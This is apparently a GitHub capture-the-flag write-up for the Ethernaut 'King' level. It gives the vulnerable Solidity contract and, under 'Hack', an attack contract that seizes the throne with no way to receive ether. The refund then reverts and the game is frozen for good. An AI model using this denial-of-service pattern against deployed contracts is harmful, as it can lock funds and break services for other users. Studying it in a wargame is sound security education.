

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract AlwaysKing {
  constructor() public {}

  function becomeKing(address payable _targetAddress) public payable {
    (bool success,)= _targetAddress.call{value: msg.value}("");
    require(success==true);
  }
}
```

We can solve this level by deploying a contract for example AlwaysKing with a function becomeKing to transfer ether greater or equal to the prize to become the king and When other players try to become king submitting more ether than the prize the King contract fails to transfer amount to the AlwaysKing contract as it fails to implement the payable receive or fallback function to receive the ether and no one can ever claim the king position.